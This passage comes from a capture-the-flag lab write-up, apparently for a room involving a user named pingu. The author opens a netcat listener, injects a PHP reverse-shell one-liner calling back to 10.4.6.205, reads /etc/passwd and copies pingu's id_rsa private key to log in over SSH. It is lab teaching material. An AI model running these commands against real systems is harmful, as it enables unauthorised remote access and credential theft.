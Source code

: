 The room states that there are two possible ways to exploit this: **Setting up a reverse shell**, or using the '**find**' command to find hidden password files within the system. Personally, I will be trying to set up a reverse shell.

First, I set up a netcat listener on my localhost using **nc -lvnp 1234.**

Next, following an online reverse-shell cheatsheet: [**https://highon.coffee/blog/reverse-shell-cheat-sheet/**](https://highon.coffee/blog/reverse-shell-cheat-sheet/)**,** I ran the command inside the command field:

 ```
 php -r '$sock=fsockopen("10.4.6.205",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

Which opens a php reverse shell. There were many other options in the cheatsheet, but I chose the php one as I had success with it before.

<img style="float: left;" src="screenshots/screenshot7.png">

And with that, I was able to run a  reverse shell and gain access into the target machine.

A simple **cat /etc/passwd** tells me that pingu still has an account on the machine. Hence, information regarding him could be present.

Sure enough, his **id_rsa** file was in his **.ssh** directory, which means we can copy it over and use it to ssh into the machine as pingu.

<img style="float: left;" src="screenshots/screenshot8.png">

Take note that I had to change the permissions of the copied id_rsa file before I can use it to authenticate myself as pingu when sshing into the server.

```
chmod 600 <FILENAME>
```

However, when sshing into the server, turns out I still needed to log in with Pingu's password… I'm not sure if this was an error on my part, or that the private key was not set up by pingu.

<img style="float: left;" src="screenshots/screenshot9.png">
